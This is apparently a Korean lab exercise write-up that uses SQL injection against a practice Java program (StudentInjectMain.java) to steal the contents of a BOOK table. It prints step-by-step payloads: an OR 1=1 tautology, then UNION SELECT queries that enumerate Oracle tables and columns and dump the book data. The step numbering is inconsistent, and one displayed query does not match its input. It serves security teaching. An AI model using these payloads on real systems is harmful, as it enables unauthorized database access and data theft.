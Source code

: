 ### Q.데이터 탈취 연습

- StudentInjectMain.java를 공격하여 BOOK Table의 데이터를 탈취하는 작업 진행하기

### A. 진행과정 및 설명

#### 1. 우선 SQL 인젝션 공격 시도 가능성 및 출력을 확인한다.

```bash
# 테이블의 형태와 데이터를 확인하기
Enter the StudentNo: ' OR 1=1--'
# 실행되는 SQL: SELECT * FROM STUDENT WHERE STD_NO='' OR 1=1 --''
```

#### 4. STUDENT 테이블 구조 조회

- STUDENT 테이블의 구조를 조회하여 어떤 데이터 타입을 가지는 지 확인

```bash
# BOOK 데이터 탈취
Enter the StudentNo: ' OR 1=1 UNION SELECT COLUMN_NAME, DATA_TYPE, NULL, NULL, NULL, NULL FROM ALL_TAB_COLUMNS WHERE TABLE_NAME = 'STUDENT'--'
# 실행되는 SQL: SELECT * FROM STUDENT WHERE STD_NO='' OR 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME, NULL, DATA_TYPE, NULL, NULL FROM ALL_TAB_COLUMNS WHERE TABLE_NAME = 'STUDENT'--''
```

이를 이용하면, Column 명과 Data Type을 조회할 수 있으므로, 향후 공격 시 활용

#### 3. TABLE 찾기

- TABLE의 COLUMN은 6개임.
- TABLE의 정보는 `USER_TABLES`로부터 가져올 수 있음

이를 활용하여 Injection 공격을 하면 다음과 같이 적을 수 있다.

```bash
# 어떤 테이블이 있는지 조회하기
Enter the StudentNo: ' OR 1=1 UNION SELECT TABLE_NAME, NULL, NULL, NULL, NULL, NULL FROM USER_TABLES--'
# 실행되는 SQL: SELECT * FROM STUDENT WHERE STD_NO='' OR 1=1 UNION SELECT TABLE_NAME, NULL, NULL, NULL, NULL, NULL FROM USER_TABLES--''
```

#### 4. BOOK 테이블 구조 조회

- BOOK TABLE이 있음을 확인했으므로, 어떤 Column이 있는지 체크

```bash
# BOOK 데이터 탈취
Enter the StudentNo: 'OR 1=1 UNION SELECT COLUMN_NAME, DATA_TYPE, NULL, NULL, NULL, NULL FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='BOOK' --'
# 실행되는 SQL: SELECT * FROM STUDENT WHERE STD_NO=''OR 1=1 UNION SELECT COLUMN_NAME, DATA_TYPE, NULL, NULL, NULL, NULL FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='BOOK' --''
```

#### 5. BOOK 테이블 데이터 탈취

- Injection을 통해 Book table 의 컬럼을 확인했으므로, 필요한 컬럼을 최대 6개씩 지정하여 데이터를 탈취

```bash
# BOOK 데이터 탈취
Enter the StudentNo: ' OR 1=1 UNION SELECT BOOK_NO, BOOK_NAME, BOOK_PRICE, BOOK_AUTHOR, BOOK_DATE, PUB_NO FROM BOOK--'
# 실행되는 SQL: SELECT * FROM STUDENT WHERE STD_NO='' OR 1=1 UNION SELECT BOOK_NO, BOOK_NAME, BOOK_PRICE, BOOK_AUTHOR, BOOK_DATE, PUB_NO FROM BOOK--''
# BOOK_AUTHOR는 데이터 타입 때문에 조회를 못했으므로 따로 조회
Enter the StudentNo: ' OR 1=1 UNION SELECT BOOK_NO, BOOK_AUTHOR, NULL, NULL, NULL, NULL FROM BOOK--'
# 실행되는 SQL: SELECT * FROM STUDENT WHERE STD_NO='' OR 1=1 UNION SELECT BOOK_NO, BOOK_AUTHOR, NULL, NULL, NULL, NULL FROM BOOK--''
```

이러한 과정을 통해 BOOK TABLE의 존재 여부, 구조, 데이터를 모두 탈취할 수 있었음
